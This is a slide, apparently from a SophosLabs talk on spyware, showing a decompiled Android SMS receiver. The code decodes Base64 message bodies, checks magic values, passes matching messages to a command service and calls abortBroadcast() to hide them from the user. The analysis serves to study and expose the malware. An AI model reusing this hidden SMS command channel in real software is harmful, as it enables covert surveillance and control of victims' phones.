

onReceive SMS
public void onReceive(Context paramContext, Intent paramIntent)

byte[] arrayOfByte =
      Base64.decode(arrayOfSmsMessage[i].getMessageBody());
ByteBuffer localByteBuffer = ByteBuffer.wrap(arrayOfByte);
localByteBuffer.order(ByteOrder.LITTLE_ENDIAN);

localByteBuffer.getInt();
int j = localByteBuffer.getInt();

if ((j == 8651888) || (j == 8664432))
//         0x840470  ||        0x843570
{
    Intent localIntent = new Intent(paramContext,
				SmsHandlerIntentServices.class);
    localIntent.putExtra("MasterAnswer", arrayOfByte);
    paramContext.startService(localIntent);
    abortBroadcast();
}
# Inside Spying   –   Attila MAROSI   -   SOPHOSLABS